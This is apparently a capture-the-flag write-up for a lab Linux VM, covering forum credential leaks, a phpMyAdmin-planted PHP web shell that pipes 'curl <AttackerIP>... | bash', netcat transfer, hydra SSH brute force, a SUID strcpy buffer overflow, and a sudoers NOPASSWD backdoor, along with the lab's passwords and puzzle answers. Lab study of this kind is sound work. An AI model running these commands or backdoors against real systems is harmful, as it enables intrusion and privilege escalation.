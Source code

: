 *INFO GATHERING*

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```ifconfig```

```nmap -T4 <Network>```

![](./img/01-ifconfig.png)
![](./img/02-nmap_network.png)

Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```ping <TargetIP>```

![](./img/03-ping.png)

As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```nmap -sV -sC -p- -T4 <TargetIP>```

![](./img/04-nmap_target.png)

The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.


Inspecting the https service, we discovered three different directories

```dirb https://<TargetIP>```

![](./img/05-dirb.png)

The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

*EXPLOITATION*

![](./img/06-forum_post.png)

We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net

![](./img/07-forum_profile.png)

Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.

![](./img/08-db_creds.png)

We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.

![](./img/09-RCE.png)

```https://<TargetIP>/forum/templates_c/rce.php?cmd=curl <AttackerIP>:<HttpPort>/shell.sh | bash```


*POST EXPLOITATION*

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```cat /home/LOOKATME/password```

```ssh lmezard@<IP>```

```su lmezard```

![](./img/10-lmezard.png)

**fun**

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

```nc -nlv <port> > fun``` in attacker

```nc <IP> <port> < fun``` in target system

```tar -xvf ./fun```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```cat ft_fun/* | grep printf | grep -v haha```

```cat ft_fun/* | grep getme -A 3 | grep -v haha```

```cat ft_fun/* | grep return | grep -v haha```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt```

```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

**bomb**

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using the online service "LINK".

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: Publicspeakingisveryeasy.126241207201b2149opekmq426135

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```echo -n "SLASH" | md5sum```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```./exploit_me Hello``` (command output)

```strings ./exploit_me```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```./exploit_me $(python payload.py)```

```echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su```

```id```

![](./img/11-root.png)
